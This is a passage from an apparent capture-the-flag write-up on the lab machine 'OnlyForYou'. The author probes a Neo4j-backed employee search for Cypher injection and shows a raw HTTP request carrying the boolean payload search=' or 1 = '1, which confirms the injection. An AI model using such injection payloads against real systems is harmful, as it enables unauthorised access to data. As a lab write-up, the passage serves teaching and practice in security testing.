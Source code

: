 ![Employees](/assets/images/2023/08/OnlyForYou/Employees.png "Employees")

I tried SQL and NoSQL injection. They both failed, but sending a `'` gave me an error. I remembered seeing Neo4j on the server. I never did injection in Neo4j. But a quick search gave me a nice [cheatsheet on Cypher Injection](https://pentester.land/blog/cypher-injection-cheatsheet/). And as usual [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j) also had lots of information.

I read both pages and started trying to exploit it. I quickly found a payload that seemed to confirm I could inject it.

```http
POST /search HTTP/1.1
Host: localhost:8001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://localhost:8001
Connection: close
Referer: http://localhost:8001/employees
Cookie: lang=en-US; session=9d9ed6dc-9c64-4f25-834d-77492f56aa71
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

search=' or 1 = '1
```
